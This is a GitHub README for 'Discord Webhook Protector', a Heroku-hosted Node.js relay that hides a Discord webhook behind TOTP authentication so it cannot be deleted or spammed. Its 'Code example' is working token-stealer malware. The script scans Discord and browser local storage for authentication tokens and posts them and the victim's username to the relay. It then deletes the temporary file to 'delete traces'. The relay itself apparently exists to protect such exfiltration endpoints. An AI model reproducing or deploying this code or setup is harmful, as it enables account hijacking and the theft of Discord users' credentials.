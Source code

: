 <h1 align="center">
  Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-hosting-the-api">🎉・Setup the api</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-code-example">🎈・Code example</a>
</h4>

<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---

## 🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely **free** and stays online **24/7**
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so webhook can't be spammed even if they http debug!
```

---

### 📁 〢 Hosting the api

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku master
...
$ heroku ps:scale web=1
...
$ heroku domains
```

6. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

> If you get an error when doing `"git push heroku master"` that looks like this
>
> ```sh
> $ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
> ```
>
> Then run `"git push heroku main"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
For testing that your api works, open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

it should've made a post request to the api uploading itself and sending "it works!" to the webhook

---

### ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "rateLimitTimeout": 12000, //amount of milliseconds an ip gets ratelimited
  "port": 3000 //port
}
```

---

### 🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [xrevix](https://github.com/xrevix) for bug testing and reporting all of them 😘
